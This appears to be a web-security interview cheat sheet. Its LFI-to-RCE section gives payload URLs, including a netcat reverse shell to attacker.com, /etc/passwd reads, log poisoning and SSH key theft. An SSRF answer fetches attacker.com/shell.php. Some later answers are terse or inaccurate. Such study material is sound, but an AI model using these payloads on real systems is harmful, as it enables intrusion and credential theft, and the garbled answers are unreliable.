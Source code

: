 - ### How to get RCE from LFI? 
1. Command Injection payload http://example.com/index.php?page=/etc/passwd&cmd=id 
2. Reverse Shell payload http://example.com/index.php?page=/var/log/apache/access.log&cmd=nc%20- e%20/bin/bash%20attacker.com%204444 
3. PHP Wrappers payload http://example.com/index.php?page=php://input&cmd=cat%20/etc/passwd 
4. access.log file if you notice you can see the User-Agent saved in this file in this can send request to the website and change the user-agent to a PHP code which gives us a permission to execute commands we can use system() to execute commands 
5. error.log file we will access /var/log/nginx/error.log to see which headers are displayed in the log. you will find Host header in the error.log file, so try to put php code including Remote code execution like that , , you will notice an error in the response so go back and access /var/log/nginx/error.log again you will find RCE. 
6. SSH method Check which user is being used (/proc/self/status - /etc/passwd) /home/hax0r/.ssh/id_rsa #hax0r = User is being used 
7. /proc//fd/ method Upload a lot of shells http://web.com/index.php?page=/proc/PID/fd/FD PID = PIDoftheproccess(canbebruteforced)FD = filedescriptor (can be bruteforced) 
8. 
- ### What are source and sink in DOM xss? 
DOM based cross site scripting occurs when JavaScript code accepts a user's input (source) and passes that input to another function that displays the results back to the page (sink) in an unsafe manner.

- ### What is the difference between local storage and session storage? 
local storage can't expire, but session storage can 

- ### IF there is secure flag on cookie, can u read it? 
yes, expect of http only flag 

- ### What is SV nmap command do? 
to get service version 

- ### IF you can't use ping to get target, what tool to use? 
Nmap, tcping, tracert if it's not reachable. 

- ### How to perform CSRF from XSS when its only 12 char allowed? 
import file contain chaining the 2 vulns 

- ### How to get RCE from SSRF? 
http://localhost/upload.php?url=http://attacker.com/shell.php
the payload contains a URL that points to a malicious shell.php file hosted on the attacker’s server. When the server processes the URL, it will execute the shell.php file and give the attacker full control over the system.

- ### How to bypass input validation as 12 chars on XSS input? 
from console, or import file method 

- ### How to do MITM attack on https? 
depends on the SSL version 

- ### What is session management? 
the process of securely handling multiple requests to a web-based application or service from a single user or entity

- ### How to handle or retrieve data from blind/Out-of-band SSRF,XSS,XXE?
detecting the injection point interaction with attacking box like burp collab by http request or dns
